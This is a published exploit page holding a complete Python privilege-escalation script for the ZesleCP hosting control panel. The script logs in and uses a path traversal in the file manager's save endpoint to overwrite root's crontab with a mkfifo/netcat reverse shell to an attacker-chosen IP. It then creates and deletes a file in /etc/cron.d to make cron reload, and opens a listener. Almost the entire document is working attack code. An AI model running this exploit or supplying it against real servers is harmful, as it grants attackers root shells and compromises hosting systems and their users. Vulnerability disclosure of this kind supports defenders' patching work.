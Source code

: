 ```yaml
---
layout: post
title: ZesleCP v3.1.20 - Privilege Escalation
date: 2024-11-09
category: exploit
---
```


################################################################################################################################################################
    
    # Exploit Title: ZesleCP v3.1.20 - Privilege Escalation
    # Exploit Author: Ahmet Ümit BAYRAM
    # Date: 09.11.2024
    # Vendor Homepage: https://zeslecp.com
    # Tested on: Ubuntu 20.04
    
    # Privilege Escalation Exploit for ZesleCP Hosting Control Panel
    # This exploit leverages a path traversal vulnerability in the file editing functionality of the ZesleCP file manager.
    # The exploit utilizes this vulnerability to modify the root user's cron file, creating a cron job that runs with root privileges.
    # Although edited with user-level privileges, files manipulated through the 'file_path' parameter retain their original ownership. 
    # This allows unauthorized editing of root-owned files, such as the cron file located in `/var/spool/cron/crontabs/root`.
    # The exploit places a reverse shell payload in this file to establish a reverse shell connection to the attacker's specified IP and port.
    # Since the cron service requires a restart to run the new job, the exploit creates and then deletes a temporary cron job in the `/etc/cron.d` directory.
    # This process triggers a cron service refresh, enabling the reverse shell command to execute successfully.
    
    import requests
    from requests.sessions import Session
    import subprocess
    import urllib3
    import time
    
    # Disable SSL Warnings
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    
    # Get user input
    host = input("Enter ZesleCP IP address: ")
    zeslecp_port = input("Enter ZesleCP port (default 2087): ")
    zeslecp_port = 2087 if zeslecp_port == "" else int(zeslecp_port)
    username = input("Enter username: ")
    password = input("Enter password: ")
    reverse_ip = input("Enter your reverse shell IP address: ")
    reverse_port = int(input("Enter your reverse shell port: "))
    
    # URL settings
    login_url = f"https://{host}:{zeslecp_port}/login"
    save_file_url = f"https://{host}:{zeslecp_port}/file-manager/save-file"
    trash_file_url = f"https://{host}:{zeslecp_port}/file-manager/trash"
    
    # Start session
    session = Session()
    session.verify = False  # Ignore SSL warnings
    
    def login():
        headers = {
            "Content-Type": "application/json",
            "Accept": "application/json, text/plain, */*"
        }
        data = {
            "username": username,
            "password": password,
            "locale": ""
        }
        
        response = session.post(login_url, headers=headers, json=data)
        
        if response.status_code == 200 and "zeslecp_session" in response.cookies:
            print("[+] Login successful.")
            session.cookies.update(response.cookies)
            return True
        else:
            print("[-] Login failed.")
            return False
    
    def create_temp_cron_file():
        # Create a temporary cron file to trigger cron refresh
        temp_cron_payload = (
            "# Temporary cron file for triggering reload\n"
            "* * * * * echo 'temp' > /dev/null\n"
        )
        
        data = {
            "file_path": "../../../../../../etc/cron.d/temp_trigger",
            "data": temp_cron_payload
        }
        
        headers = {
            "Content-Type": "application/json",
            "Accept": "application/json, text/plain, */*",
            "Referer": f"https://{host}:{zeslecp_port}/file-manager",
        }
        
        response = session.post(save_file_url, headers=headers, json=data)
        
        if response.status_code == 200:
            print("[+] Temporary cron file created successfully.")
            return True
        else:
            print("[-] Failed to create temporary cron file.")
            print(f"Status Code: {response.status_code}")
            print(f"Response: {response.text}")
            return False
    
    def delete_temp_cron_file():
        # Delete the temporary cron file
        data = {
            "files": [{"path": "../../../../../../etc/cron.d/temp_trigger", "type": "file"}]
        }
        
        headers = {
            "Content-Type": "application/json",
            "Accept": "application/json, text/plain, */*",
            "Referer": f"https://{host}:{zeslecp_port}/file-manager",
        }
        
        response = session.post(trash_file_url, headers=headers, json=data)
        
        if response.status_code == 200:
            print("[+] Temporary cron file deleted successfully.")
            return True
        else:
            print("[-] Failed to delete temporary cron file.")
            print(f"Status Code: {response.status_code}")
            print(f"Response: {response.text}")
            return False
    
    def modify_cron_for_reverse_shell():
        cron_payload = (
            "# DO NOT EDIT THIS FILE - edit the master and reinstall.\n"
            "MAILTO=\"\"\n"
            f"* * * * * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc {reverse_ip} {reverse_port} >/tmp/f\n\n"
        )
        
        data = {
            "file_path": "../../../../../../var/spool/cron/crontabs/root",
            "data": cron_payload
        }
        
        headers = {
            "Content-Type": "application/json",
            "Accept": "application/json, text/plain, */*",
            "Referer": f"https://{host}:{zeslecp_port}/file-manager",
        }
        
        response = session.post(save_file_url, headers=headers, json=data)
        
        if response.status_code == 200:
            print("[+] Cron job with reverse shell added successfully.")
            return True
        else:
            print("[-] Failed to modify cron file.")
            print(f"Status Code: {response.status_code}")
            print(f"Response: {response.text}")
            return False
    
    # Start listener with verbose output
    def start_listener():
        print(f"[+] Starting reverse shell listener on port {reverse_port}...")
        listener_command = f"nc -vv -l -p {reverse_port} -n"
        subprocess.run(listener_command, shell=True)
    
    def main():
        if not login():
            exit(1)
    
        if modify_cron_for_reverse_shell():
            if create_temp_cron_file():
                time.sleep(2)  # Wait 2 seconds after creating the file
                if delete_temp_cron_file():
                    print("[+] Cron should now be refreshed, and reverse shell job active.")
                    start_listener()  # Start listener after cron reload is triggered
    
    if __name__ == "__main__":
        main()
